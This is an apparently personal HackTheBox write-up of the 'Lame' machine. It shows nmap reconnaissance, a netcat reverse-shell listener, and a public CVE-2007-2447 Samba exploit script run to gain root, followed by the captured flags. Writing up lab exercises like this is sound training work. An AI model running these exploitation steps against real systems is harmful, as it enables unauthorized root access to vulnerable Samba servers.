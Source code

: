 ```yaml
---
authors: [peek4bUh]
language: english
noteType: area
skills: "nmap, netcat"
status: draft
tags: [hackthebox, writeup]
title: Lame Write-Up
date: 06 Nov 2024
---
```


# Lame Write-Up

This HackTheBox machine is aimed to practice the following:

- nmap
- netcat

<!-- truncate -->

## Box Info

```
Machine      : Lame
OS           : Linux
Release date : 14, March 2017
IP address   : 10.129.143.253
Dificulty    : Easy
```

## Recon

### nmap

[[nmap]] finds four open TCP ports, FTP (21), SSH (22), old SMB (139), SMB (445):

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:05 CET
Nmap scan report for 10.129.143.253
Host is up (0.048s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

```bash
nmap -p 21,22,139,445 -sV -sC -oN nmap/services_version 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:16 CET
Nmap scan report for 10.129.143.253
Host is up (0.046s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m38s, deviation: 3h32m10s, median: 36s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-11-06T14:17:14-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.82 seconds
```

### SMB

Looing the samba version I found [this](https://github.com/amriunix/CVE-2007-2447). So following the Python script I did the following.

- Open my netcat and type:

```bash
nc -lvnp 1234
```

- Execute GitHub script to get the root shell:

```bash
python3 usermap_script.py 10.129.143.253 139 10.10.14.129 1234
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

- Got shell and you are root:

```
nc -lvnp 1234
Connection from 10.129.143.253:41195
whoami
root
```

- Get the normal user and root flags:

```
ls home
ftp
makis
service
user
cd /home/makis
ls
user.txt
cat user.txt
f7da385424028604c99dd9ff8bb5a6b3
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
618ea7a4162c41723a91b709fd75ed24
```

And the machine is pwned! ;)

## References

- ch4p. (2017, March 14). <span class="reference-title">Lame</span>. _HTB Labs_. [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)
